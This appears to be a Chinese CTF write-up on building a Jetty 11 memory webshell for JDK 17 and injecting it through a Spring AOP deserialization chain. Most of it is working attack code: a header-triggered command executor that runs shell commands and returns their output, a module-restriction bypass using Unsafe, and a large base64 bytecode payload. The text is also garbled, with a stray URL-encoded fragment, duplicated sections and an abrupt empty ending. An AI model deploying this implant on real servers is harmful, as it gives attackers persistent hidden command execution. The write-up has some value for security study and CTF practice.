        Object[] table = (Object[])getFieldValue(threadLocals, "table");
        int len = table.length;
        Object HEADER = "shushu";
        Object RHEADER = "reshushu";
        Object request = null;
        Object response = null;
        for (int i = 0; i < len; i++) {
            Object entry = table[i];
            if(entry!=null){
                Object value = getFieldValue(entry, "value");
                if (value!=null && value.getClass().getName().equals("org.eclipse.jetty.server.HttpConnection")) {
                    Object channel = getFieldValue(value, "_channel");
                    request = getFieldValue(channel, "_request");
                    response = getFieldValue(channel, "_response");
                }
            }

        }
        String header =  (String)invokeMethod(request, "getHeader", new Class[]{String.class}, new Object[]{HEADER});
        String result = exec(header);
        invokeMethod(response, "setHeader", new Class[]{String.class, String.class}, new Object[]{RHEADER, result});
//        System.out.println(header);

    }
    public static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }
    public static String exec(String str) throws Exception {
        String[] cmd;
        if (System.getProperty("os.name").toLowerCase().contains("win")) {
            cmd = new String[]{"cmd.exe", "/c", str};
        } else {
            cmd = new String[]{"/bin/sh", "-c", str};
        }

        InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
        byte[] bytes = new byte[1024];
        StringBuilder stringBuilder = new StringBuilder();

        while(true) {
            int len = inputStream.read(bytes);
            if (len == -1) {
                return Base64.getEncoder().encodeToString(stringBuilder.toString().getBytes());
            }

            stringBuilder.append(new String(bytes, 0, len));
        }
    }
    public static Field getField(Class<?> clazz, String fieldName) {
        Field field = null;

        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException var4) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }

        return field;
    }
    public static Object invokeMethod(Object obj, String methodName, Class[] argsClass, Object[] args) throws Exception {
        try {
            return invokeMethod(obj.getClass(), obj, methodName, argsClass, args);
        } catch (Exception var5) {
            return invokeMethod(obj.getClass().getSuperclass(), obj, methodName, argsClass, args);
        }
    }

    public static Object invokeMethod(Class cls, Object obj, String methodName, Class[] argsClass, Object[] args) throws Exception {
        Method method = cls.getDeclaredMethod(methodName, argsClass);
        method.setAccessible(true);
        Object object = method.invoke(obj, args);
        return object;
    }
}
```


可以看到我们请求头shushu:whoami另外一边能够成功回显,base64解码即可，说明我们的内存马已经成功一半了。

高版本注入内存马需要绕过一下，参考文章

```
https://whoopsunix.com/docs/java/named%20module/#0x03-unsafe-%E7%BB%95%E8%BF%87-jdk-17-%E5%8F%8D%E5%B0%84%E9%99%90%E5%88%B6-named-module
```

我们利用这种方式来进行注入

```
package mem;

import sun.misc.Unsafe;

import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
public class jetty11mem {
    static {
        new jetty11mem();
    }
    public jetty11mem(){
        try {
            Class unsafeClass = Class.forName("sun.misc.Unsafe");
            Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) unsafeField.get(null);

            Module module = Object.class.getModule();
            Class cls = jetty11mem.class;
            long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(cls, offset, module);

            Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);
            defineClass.setAccessible(true);
            byte[] bytecode= Files.readAllBytes(Paths.get("E:\ezjava\myapp\target\classes\ctf\challenge\memshell.class"));
            //或者以base64字节码的方式加载内存马  byte[] bytecode = Base64.getDecoder().decode("yv66vgAAAD0BFAoAAgADBwAEDAAFAAYBABBqYXZhL2xhbmcvT2JqZWN0AQAGPGluaXQ+AQADKClWCgAIAAkHAAoMAAsABgEAFmN0Zi9jaGFsbGVuZ2UvbWVtc2hlbGwBAAltZW1zaGVsbDEHAA0BABNqYXZhL2xhbmcvRXhjZXB0aW9uBwAPAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24KAA4AEQwABQASAQAYKExqYXZhL2xhbmcvVGhyb3dhYmxlOylWBwAUAQAPc3VuL21pc2MvVW5zYWZlCAAWAQAJdGhlVW5zYWZlCgAYABkHABoMABsAHAEAD2phdmEvbGFuZy9DbGFzcwEAEGdldERlY2xhcmVkRmllbGQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsKAB4AHwcAIAwAIQAiAQAXamF2YS9sYW5nL3JlZmxlY3QvRmllbGQBAA1zZXRBY2Nlc3NpYmxlAQAEKFopVgoAHgAkDAAlACYBAANnZXQBACYoTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwoAGAAoDAApACoBAAlnZXRNb2R1bGUBABQoKUxqYXZhL2xhbmcvTW9kdWxlOwgALAEABm1vZHVsZQoAEwAuDAAvADABABFvYmplY3RGaWVsZE9mZnNldAEAHChMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7KUoKABMAMgwAMwA0AQAJcHV0T2JqZWN0AQAoKExqYXZhL2xhbmcvT2JqZWN0O0pMamF2YS9sYW5nL09iamVjdDspVgoACAA2DAA3AAYBAAxieXBhc3Ntb3VkbGUKADkAOgcAOwwAPAA9AQAQamF2YS9sYW5nL1RocmVhZAEADWN1cnJlbnRUaHJlYWQBABQoKUxqYXZhL2xhbmcvVGhyZWFkOwgAPwEADHRocmVhZExvY2FscwoACABBDABCAEMBAA1nZXRGaWVsZFZhbHVlAQA4KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL09iamVjdDsIAEUBAAV0YWJsZQcARwEAE1tMamF2YS9sYW5nL09iamVjdDsIAEkBAAZzaHVzaHUIAEsBAAhyZXNodXNodQgATQEABXZhbHVlCgACAE8MAFAAUQEACGdldENsYXNzAQATKClMamF2YS9sYW5nL0NsYXNzOwoAGABTDABUAFUBAAdnZXROYW1lAQAUKClMamF2YS9sYW5nL1N0cmluZzsIAFcBACdvcmcuZWNsaXBzZS5qZXR0eS5zZXJ2ZXIuSHR0cENvbm5lY3Rpb24KAFkAWgcAWwwAXABdAQAQamF2YS9sYW5nL1N0cmluZwEABmVxdWFscwEAFShMamF2YS9sYW5nL09iamVjdDspWggAXwEACF9jaGFubmVsCABhAQAIX3JlcXVlc3QIAGMBAAlfcmVzcG9uc2UIAGUBAAlnZXRIZWFkZXIKAAgAZwwAaABpAQAMaW52b2tlTWV0aG9kAQBdKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzO1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7CgAIAGsMAGwAbQEABGV4ZWMBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwgAbwEACXNldEhlYWRlcgoACABxDAByAHMBAAhnZXRGaWVsZAEAPihMamF2YS9sYW5nL0NsYXNzO0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7CAB1AQAHb3MubmFtZQoAdwB4BwB5DAB6AG0BABBqYXZhL2xhbmcvU3lzdGVtAQALZ2V0UHJvcGVydHkKAFkAfAwAfQBVAQALdG9Mb3dlckNhc2UIAH8BAAN3aW4KAFkAgQwAggCDAQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoIAIUBAAdjbWQuZXhlCACHAQACL2MIAIkBAAcvYmluL3NoCACLAQACLWMKAI0AjgcAjwwAkACRAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7CgCNAJMMAGwAlAEAKChbTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsKAJYAlwcAmAwAmQCaAQARamF2YS9sYW5nL1Byb2Nlc3MBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07BwCcAQAXamF2YS9sYW5nL1N0cmluZ0J1aWxkZXIKAJsAAwoAnwCgBwChDACiAKMBABNqYXZhL2lvL0lucHV0U3RyZWFtAQAEcmVhZAEABShbQilJCgClAKYHAKcMAKgAqQEAEGphdmEvdXRpbC9CYXNlNjQBAApnZXRFbmNvZGVyAQAcKClMamF2YS91dGlsL0Jhc2U2NCRFbmNvZGVyOwoAmwCrDACsAFUBAAh0b1N0cmluZwoAWQCuDACvALABAAhnZXRCeXRlcwEABCgpW0IKALIAswcAtAwAtQC2AQAYamF2YS91dGlsL0Jhc2U2NCRFbmNvZGVyAQAOZW5jb2RlVG9TdHJpbmcBABYoW0IpTGphdmEvbGFuZy9TdHJpbmc7CgBZALgMAAUAuQEAByhbQklJKVYKAJsAuwwAvAC9AQAGYXBwZW5kAQAtKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZ0J1aWxkZXI7BwC/AQAeamF2YS9sYW5nL05vU3VjaEZpZWxkRXhjZXB0aW9uCgAYAMEMAMIAUQEADWdldFN1cGVyY2xhc3MKAAgAxAwAaADFAQBuKExqYXZhL2xhbmcvQ2xhc3M7TGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsKABgAxwwAyADJAQARZ2V0RGVjbGFyZWRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7CgDLAB8HAMwBABhqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2QKAMsAzgwAzwDQAQAGaW52b2tlAQA5KExqYXZhL2xhbmcvT2JqZWN0O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7CgAIAAMBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQABZQEAFUxqYXZhL2xhbmcvRXhjZXB0aW9uOwEABHRoaXMBABhMY3RmL2NoYWxsZW5nZS9tZW1zaGVsbDsBAA1TdGFja01hcFRhYmxlAQAGdW5zYWZlAQARTHN1bi9taXNjL1Vuc2FmZTsBAAVmaWVsZAEAGUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsBAApiYXNlTW9kdWxlAQASTGphdmEvbGFuZy9Nb2R1bGU7AQAMY3VycmVudENsYXNzAQARTGphdmEvbGFuZy9DbGFzczsBAAZvZmZzZXQBAAFKAQAKRXhjZXB0aW9ucwEAB2NoYW5uZWwBABJMamF2YS9sYW5nL09iamVjdDsBAAVlbnRyeQEAAWkBAAFJAQADbGVuAQAGSEVBREVSAQAHUkhFQURFUgEAB3JlcXVlc3QBAAhyZXNwb25zZQEABmhlYWRlcgEAEkxqYXZhL2xhbmcvU3RyaW5nOwEABnJlc3VsdAEAA29iagEACWZpZWxkTmFtZQEAA2NtZAEAE1tMamF2YS9sYW5nL1N0cmluZzsBAANzdHIBAAtpbnB1dFN0cmVhbQEAFUxqYXZhL2lvL0lucHV0U3RyZWFtOwEABWJ5dGVzAQACW0IBAA1zdHJpbmdCdWlsZGVyAQAZTGphdmEvbGFuZy9TdHJpbmdCdWlsZGVyOwcA9QcA+gEABHZhcjQBACBMamF2YS9sYW5nL05vU3VjaEZpZWxkRXhjZXB0aW9uOwEABWNsYXp6AQAWTG9jYWxWYXJpYWJsZVR5cGVUYWJsZQEAFExqYXZhL2xhbmcvQ2xhc3M8Kj47AQAJU2lnbmF0dXJlAQBBKExqYXZhL2xhbmcvQ2xhc3M8Kj47TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsBAAR2YXI1AQAKbWV0aG9kTmFtZQEACWFyZ3NDbGFzcwEAEltMamF2YS9sYW5nL0NsYXNzOwEABGFyZ3MBAANjbHMBAAZtZXRob2QBABpMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEABm9iamVjdAEACDxjbGluaXQ+AQAKU291cmNlRmlsZQEADW1lbXNoZWxsLmphdmEBAAxJbm5lckNsYXNzZXMBAAdFbmNvZGVyACEACAACAAAAAAAJAAEABQAGAAEA0gAAAHsAAwACAAAAFSq3AAG4AAenAA1MuwAOWSu3ABC/sQABAAQABwAKAAwAAwDT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");
            Class clazz = (Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), bytecode, 0, bytecode.length);
            clazz.newInstance();
        }catch (Exception e){
            throw new RuntimeException(e);
        }

    }
}

```

‍

最后只需要在

```
SpringAOPAndJDK17中的

CtClass ctClass = pool.makeClass("Calc");
ctClass.addConstructor(CtNewConstructor.make("public Calc() { Runtime.getRuntime().exec("calc"); }", ctClass));
CtClass ctClass1 = pool.makeClass("Foo");
byte[] bytecode = ctClass.toBytecode();
byte[] bytecode1 = ctClass1.toBytecode();
修改为下面这个

CtClass ctClass = pool.get("mem.jetty11mem");
CtClass ctClass1 = pool.makeClass("Calc");
byte[] bytecode = ctClass.toBytecode();
byte[] bytecode1 = ctClass1.toBytecode();
```

最后成功注入


​

0%20unserialize(baos.toByteArray())%3B%5Cn%20%20%20%20%7D%5Cn%20%20%20%20public%20static%20void%20unserialize(byte%5B%5D%20exp)%20throws%20Exception%20%7B%5Cn%20%20%20%20%20%20%20%20ByteArrayInputStream%20bais%20%3D%20new%20ByteArrayInputStream(exp)%3B%5Cn%20%20%20%20%20%20%20%20ObjectInputStream%20ois%20%3D%20new%20ObjectInputStream(bais)%3B%5Cn%20%20%20%20%20%20%20%20ois.readObject()%3B%5Cn%20%20%20%20%7D%5Cn%7D%5Cn%22%2C%22autoWrap%22%3Afalse%2C%22lineNumbers%22%3Atrue%2C%22heightLimit%22%3Atrue%2C%22collapsed%22%3Afalse%2C%22hideToolbar%22%3Atrue%2C%22name%22%3A%22%22%2C%22tabSize%22%3Anull%2C%22indentWithTab%22%3Afalse%2C%22lightLines%22%3A%5B%5D%2C%22foldLines%22%3A%5B%5D%2C%22theme%22%3A%22Github%20Light%22%2C%22id%22%3A%22sFlwq%22%7D">

但实际上调试的时候就出现到问题


如果当第一个代理的ClassLoader不是当前类，而是`Proxy`类的话，就会抛出异常

具体原因是因为

```
Exception in thread "main" java.lang.IllegalArgumentException: org.springframework.aop.Advisor referenced from a method is not visible from class loader
```

也就是说org.springframework.aop.Advisor不可见。

在 Java 中，类加载器采用双亲委派模型，不同的类加载器可能加载相同名称但实际不同的类。

当创建 JDK 动态代理时，用于加载代理类的类加载器必须能够访问到所有被代理的接口。

而如果我们使用的是当前类的类加载器，这个类加载器能够访问到Advisor和MethodInterceptor接口（因为当前类本身就依赖这些接口），所以代理类可以正常创建。

#### jetty内存马

可以先去分析一下jetty低版本的内存马，由于包名改变了

9.4.44.v20210927版本的jetty内存马的包名是javax/servlet/Filter

但是在题目中的jetty是11.0.26

因此沿用原来的payload就会发生报错java.lang.ClassNotFoundException


那么我们来手动挖掘一下。

先在web.xml新建测试路由

```
<!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >

<web-app>
  <display-name>Archetype Created Web Application</display-name>

  <servlet>
    <servlet-name>Hello</servlet-name>

    <servlet-class>com.example.Hello</servlet-class>

  </servlet>

  <servlet-mapping>
    <servlet-name>Hello</servlet-name>

    <url-pattern>/hello</url-pattern>

  </servlet-mapping>

</web-app>

```

‍

com.example.Hello类如下

```
import jakarta.servlet.http.HttpServlet;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;
import java.io.IOException;
public class Hello extends HttpServlet{
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse res) throws IOException {
        res.setContentType("text/html");
        res.setStatus(HttpServletResponse.SC_OK);
        res.getWriter().println("<h1>Hello World</h1>");
    }
}

```

打上断点，访问<http://127.0.0.1:8080/hello,进入调试>


可以看到有req和res两个变量，req就是请求的报文，res就是结果报文

我们需要做的是，在req请求报文中定义一个新的请求头，里面传入命令参数，然后执行，然后通过res定义新的请求返回结果

那么为了进一步分析调用栈，以及获取context的上下文推荐一个工具。

项目地址

<https://github.com/c0ny1/java-object-searcher>

获取context通用的手段一般都是从当前请求线程中获取，在以前的话需要自己手工进行分析，c0ny1师傅开发了一款很方便的工具，能够在内存中快速搜索出想要的对象

我们跑一下深度搜索

```

sun.misc.Unsafe unsafe;
java.lang.reflect.Field field = sun.misc.Unsafe.class.getDeclaredField("theUnsafe");
field.setAccessible(true);
unsafe = (sun.misc.Unsafe)field.get((Object)null);
Module baseModule = Object.class.getModule();
Class currentClass = me.gv7.tools.josearcher.searcher.SearchRequstByBFS.class;
long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
unsafe.putObject(currentClass, offset, baseModule);


java.util.List<me.gv7.tools.josearcher.entity.Keyword> keys = new java.util.ArrayList<me.gv7.tools.josearcher.entity.Keyword>();
keys.add(new me.gv7.tools.josearcher.entity.Keyword.Builder().setField_type("Request").build());
java.util.List<me.gv7.tools.josearcher.entity.Blacklist> blacklists = new java.util.ArrayList<me.gv7.tools.josearcher.entity.Blacklist>();
blacklists.add(new me.gv7.tools.josearcher.entity.Blacklist.Builder().setField_type("java.io.File").build());
me.gv7.tools.josearcher.searcher.SearchRequstByBFS searcher = new me.gv7.tools.josearcher.searcher.SearchRequstByBFS(Thread.getThreads(),keys);
searcher.setBlacklists(blacklists);
searcher.setIs_debug(true);
searcher.setMax_search_depth(20);
searcher.setReport_save_path("E:\ezjava\untitled\");
searcher.searchObject();
```

因为我目前用的是jdk17，所以要加上unsafe来达到绕过强封装


我们查看一下得到的结果，检索一下符合org.eclipse.jetty.server.Request这个类的调用栈

因为这个类正是我们去检索Request这个关键字所要找到的。

发现有两条





先看第一条



可以看到里面的\_request正是我们访问hello的请求体。

然后第二条是


blocker为null值，很明显第一条更加符合。

那么根据第一条调用栈，起手式应该就是

```
Thread[] threads = Thread.getThreads();
Thread targetThread = threads[9];
ThreadLocal.ThreadLocalMap threadLocals = targetThread.threadLocals;
ThreadLocal.ThreadLocalMap.Entry[] table = threadLocals.table;
ThreadLocal.ThreadLocalMap.Entry entry = table[1];
Object value = entry.value;

```


那么目前我们的value就是org.eclipse.jetty.server.HttpConnection

如果要继续往下获取就需要用到反射调用了

完整的代码如下

```

package com.example;

import jakarta.servlet.http.HttpServlet;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;
import mem.jettymem;
import sun.misc.Unsafe;

import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Base64;

public class Hello extends HttpServlet{


    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse res) throws IOException {
        res.setContentType("text/html");
        res.setStatus(HttpServletResponse.SC_OK);
        res.getWriter().println("<h1>Hello World</h1>");
        try {
            memshell();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    public static void bypassmoudle() throws Exception{
        bypassmoudle();
        sun.misc.Unsafe unsafe;
        java.lang.reflect.Field field = sun.misc.Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        unsafe = (sun.misc.Unsafe)field.get((Object)null);
        Module baseModule = Object.class.getModule();
        Class currentClass = com.example.Hello.class;
        long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
        unsafe.putObject(currentClass, offset, baseModule);
    }

    public static void memshell() throws Exception {
        Object threadLocals = getFieldValue(Thread.currentThread(), "threadLocals");
        Object[] table = (Object[])getFieldValue(threadLocals, "table");
        int len = table.length;
        Object HEADER = "shushu";
        Object RHEADER = "reshushu";
        Object request = null;
        Object response = null;
        for (int i = 0; i < len; i++) {
            Object entry = table[i];
            if(entry!=null){
                Object value = getFieldValue(entry, "value");
                if (value!=null && value.getClass().getName().equals("org.eclipse.jetty.server.HttpConnection")) {
                    Object channel = getFieldValue(value, "_channel");
                    request = getFieldValue(channel, "_request");
                    response = getFieldValue(channel, "_response");
                }
            }

        }
        String header =  (String)invokeMethod(request, "getHeader", new Class[]{String.class}, new Object[]{HEADER});
        String result = exec(header);
        invokeMethod(response, "setHeader", new Class[]{String.class, String.class}, new Object[]{RHEADER, result});
//        System.out.println(header);

    }
    public static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }
    public static String exec(String str) throws Exception {
        String[] cmd;
        if (System.getProperty("os.name").toLowerCase().contains("win")) {
            cmd = new String[]{"cmd.exe", "/c", str};
        } else {
            cmd = new String[]{"/bin/sh", "-c", str};
        }

        InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
        byte[] bytes = new byte[1024];
        StringBuilder stringBuilder = new StringBuilder();

        while(true) {
            int len = inputStream.read(bytes);
            if (len == -1) {
                return Base64.getEncoder().encodeToString(stringBuilder.toString().getBytes());
            }

            stringBuilder.append(new String(bytes, 0, len));
        }
    }
    public static Field getField(Class<?> clazz, String fieldName) {
        Field field = null;

        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException var4) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }

        return field;
    }
    public static Object invokeMethod(Object obj, String methodName, Class[] argsClass, Object[] args) throws Exception {
        try {
            return invokeMethod(obj.getClass(), obj, methodName, argsClass, args);
        } catch (Exception var5) {
            return invokeMethod(obj.getClass().getSuperclass(), obj, methodName, argsClass, args);
        }
    }

    public static Object invokeMethod(Class cls, Object obj, String methodName, Class[] argsClass, Object[] args) throws Exception {
        Method method = cls.getDeclaredMethod(methodName, argsClass);
        method.setAccessible(true);
        Object object = method.invoke(obj, args);
        return object;
    }
}
```



可以看到我们请求头shushu:whoami另外一边能够成功回显,base64解码即可，说明我们的内存马已经成功一半了。

高版本注入内存马需要绕过一下，参考文章

```
https://whoopsunix.com/docs/java/named%20module/#0x03-unsafe-%E7%BB%95%E8%BF%87-jdk-17-%E5%8F%8D%E5%B0%84%E9%99%90%E5%88%B6-named-module
```

我们利用这种方式来进行注入

```
